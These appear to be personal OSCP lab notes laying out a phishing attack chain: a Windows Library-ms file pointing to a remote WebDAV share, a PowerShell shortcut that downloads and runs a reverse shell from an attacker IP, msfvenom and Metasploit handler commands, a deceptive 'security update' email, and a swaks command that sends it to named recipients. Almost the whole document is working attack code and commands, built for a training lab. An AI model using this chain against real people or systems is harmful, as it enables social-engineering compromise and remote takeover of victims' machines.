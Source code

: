 <% tp.file.rename("1_phishing")%>


## Creating the Payloads
- 1st stage: config.Library-ms
  This opens our remotely hosted 2nd stage dropper like it was a local folder
```xml
<?xml version="1.0" encoding="UTF-8"?>
<libraryDescription xmlns="http://schemas.microsoft.com/windows/2009/library">
<name>@windows.storage.dll,-34582</name>
<version>6</version>
<isLibraryPinned>true</isLibraryPinned>
<iconReference>imageres.dll,-1003</iconReference>
<templateInfo>
<folderType>{7d49d726-3c21-4f05-99aa-fdc2c9474656}</folderType>
</templateInfo>
<searchConnectorDescriptionList>
<searchConnectorDescription>
<isDefaultSaveLocation>true</isDefaultSaveLocation>
<isSupported>false</isSupported>
<simpleLocation>
<url>http://HIP</url>
</simpleLocation>
</searchConnectorDescription>
</searchConnectorDescriptionList>
</libraryDescription>
```

- 2nd stage (autoconfig.lnk)
```powershell
powershell.exe -NoExit -c "IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.45.163:8000/revshell.ps1'); revshell"
```

- 3rd stage
```bash
msfvenom -p windows/powershell_reverse_tcp LHOST=192.168.45.163 LPORT=4444 NOEXIT -f raw -o revshell.ps1
```
>  MUST remove the gibberish from the beginning and end of the file, otherwise the payload won't work

## Setup C2

- Host the 2nd stage via webdav (shell 1)
```bash
/home/kali/.local/bin/wsgidav --host=0.0.0.0 --port=80 --auth=anonymous --root /home/kali/oscp/lab/webdav/
```

- Create a copy of the library and use that to transfer those two files to kali
> Always keep an unused version of this library file as it might get unusable once opened

- Host the 3rd stage via HTTP (shell 2)
```bash
cd /home/kali/oscp/lab/ATP23/phishing/webserver && python3 -m http.server 8000
```

- Receive reverse shell (shell 3)
```bash
msfconsole -x "use exploit/multi/handler; set PAYLOAD windows/powershell_reverse_tcp; set LHOST $hip; set LPORT $hport; set ExitOnSession false; run"
```

## Send Phish
- Example contents for body.txt
```
Hey!
I checked WEBSRV1 and discovered that the previously used staging script still exists in the Git logs. I'll remove it for security reasons.

On an unrelated note, please install the new security features on your workstation. For this, download the attached file, double-click on it, and execute the configuration shortcut within. Thanks!

John
```

- Shell 4
```bash
cd ~/oscp/lab/ATP23/phishing/ && sudo swaks -t daniela@beyond.com -t marcus@beyond.com --from john@beyond.com --attach @config.Library-ms --server 192.168.209.242 --body @body.txt --header "Subject: Staging Script" --suppress-data -ap
```
